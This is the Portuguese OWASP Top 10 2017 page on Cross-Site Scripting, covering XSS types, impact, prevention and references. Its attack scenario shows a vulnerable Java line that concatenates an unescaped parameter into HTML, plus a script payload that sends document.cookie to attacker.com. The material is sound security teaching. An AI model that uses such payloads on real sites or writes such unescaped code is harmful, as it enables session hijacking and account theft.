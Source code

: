 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vectores de Ataque | Falha de Segurança | Impacto |
| -- | -- | -- |
| Específico App. \| Abuso: 3 | Prevalência: 3 \| Deteção: 3 | Técnico: 2 \| Negócio ? |
| Existem ferramentas automáticas capazes de detetar e tirar partido dos três tipos de XSS. Existem ainda _frameworks_, disponibilizadas gratuitamente, capazes de explorar este problema. | XSS é o segundo maior risco no Top 10 da OWASP e cerca de dois terços das aplicações são vulneráveis a este tipo de ataque. Existem ferramentas automáticas capazes de encontrar problemas de XSS em tecnologías bastantes populares como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para os tipos Reflected e DOM XSS mas severo para Stored XSS, onde a execução remota de código no navegador da vítima permite ao atacante roubar credenciais, sessões ou até mesmo infetar a máquina da vítima com _malware_. |

## A Aplicação é Vulnerável?

Existem três tipos de XSS que visam normalmente o navegador dos utilizadores:

* **Reflected XSS**: A aplicação ou API incluem dados de entrada do utilizador
  como parte do HTML da resposta sem que estes tenham sido validados e/ou os
  caracteres especiais tratados (_escaping_). Um ataque bem sucedido pode
  permitir a execução de código HTML e JavaScript no navegador da vítima.
  Normalmente a vítima segue um endereço malicioso para uma página controlada
  pelo atacante tal como _watering hole websites_, publicidade ou algo
  semelhante.
* **Stored XSS**: A aplicação ou API armazenam dados de entrada do utilizador de
  forma não tratada (_sanitization_) os quais serão mais tarde acedidos por
  outro utilizador ou administrador. Este tipo de XSS é considerado de risco
  alto ou crítico.
* **DOM XSS**: Tipicamente as _frameworks_ JavaScript, _Single Page
  Applications_ (SPA) e APIs que incluem na página, de forma dinâmica,
  informação controlada pelo atacante, são vulneráveis a DOM XSS. Idealmente a
  aplicação não enviaria informação controlada pelo atacante para as APIs
  JavaScript.

Os ataques típicos de XSS visam o roubo da sessão do utilizador, roubo ou
controlo da conta de utilizador, contornar autenticação de multi-fator (MFA),
alteração do DOM por substituição ou alteração de nós (e.g. formulários),
ataques contra o navegador do utilizador tais como o download de software
malicioso, _key logging_ entre outros.

## Como Prevenir

Prevenir ataques de XSS requer a separação dos dados não confiáveis do conteúdo
ativo do navegador. Isto é conseguido através da:

* Utilização de _frameworks_ que ofereçam nativamente protecção para XSS tais
  como as versões mais recentes de Ruby on Rails e ReactJS. É preciso conhecer
  as limitações destes mecanismos de proteção por forma a tratar de forma
  adequada os casos não cobertos.
* Tratamento adequado (_escaping_) da informação não confiável no pedido HTTP,
  tendo em conta o contexto onde esta informação irá ser inserida no HTML (body,
  atributo, JavaScript, CSS ou URL), resolve os tipos _Reflected_ e _Stored_
  XSS. Detalhes sobre como tratar esta informação estão no [OWASP Cheat Sheet
  'XSS Prevention'][0xa71].
* Aplicação de codificação de caracteres adequada ao contexto de utilização
  aquando da modificação da página no lado do cliente previne DOM XSS. Quando
  isto não é possível, podem utilizar-se algumas das técnicas referidas no
  documento [OWASP Cheat Sheet 'DOM based XSS Prevention'][0xa72].
* Adição de [Content Security Policy (CSP)][0xa73] enquanto medida de mitigação
  de XSS. É uma medida eficaz se não existirem outras vulnerabilidades que
  possibilitem a inclusão de código malicioso através de ficheiros locais da
  aplicação (e.g. _path traversal overwrites_ ou dependências vulneráveis
  incluídas a partir de CDNs autorizadas).

## Exemplos de Cenários de Ataque

**Cenário #1**: A aplicação usa informação não confiável na construção do HTML
abaixo, sem validação ou escaping:

```Java
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

O atacante altera o parâmetro `CC` no browser para:

```
'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Isto irá fazer com que a sessão da vítima seja enviada para a página do
atacante, dando-lhe o controlo sobre a atual sessão do utilizador.

**Nota**: Os atacantes podem tirar partido do XSS para derrotar qualquer
mecanismo de defesa automática contra [Cross-Site Request Forgery
(CSRF)][0xa74].

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data][0xa75]
* [OWASP Proactive Controls: Validate Data][0xa76]
* [OWASP Application Security Verification Standard: V5][0xa77]
* [OWASP Testing Guide: Testing for Reflected XSS][0xa78]
* [OWASP Testing Guide: Testing for Stored XSS][0xa79]
* [OWASP Testing Guide: Testing for DOM XSS][0xa710]
* [OWASP Cheat Sheet: XSS Prevention][0xa711]
* [OWASP Cheat Sheet: DOM based XSS Prevention][0xa712]
* [OWASP Cheat Sheet: XSS Filter Evasion][0xa713]
* [OWASP Java Encoder Project][0xa714]

### Externas

* [CWE-79: Improper neutralization of user supplied input][0xa715]
* [PortSwigger: Client-side template injection][0xa716]

[0xa71]: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
[0xa72]: https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html
[0xa73]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[0xa74]: https://developer.mozilla.org/pt-PT/docs/Glossary/CSRF
[0xa75]: https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data
[0xa76]: https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data
[0xa77]: https://owasp.org/www-project-application-security-verification-standard/
[0xa78]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting
[0xa79]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting
[0xa710]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting
[0xa711]: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
[0xa712]: https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html
[0xa713]: https://owasp.org/www-community/xss-filter-evasion-cheatsheet
[0xa714]: https://owasp.org/www-project-java-encoder/
[0xa715]: https://cwe.mitre.org/data/definitions/79.html
[0xa716]: https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection

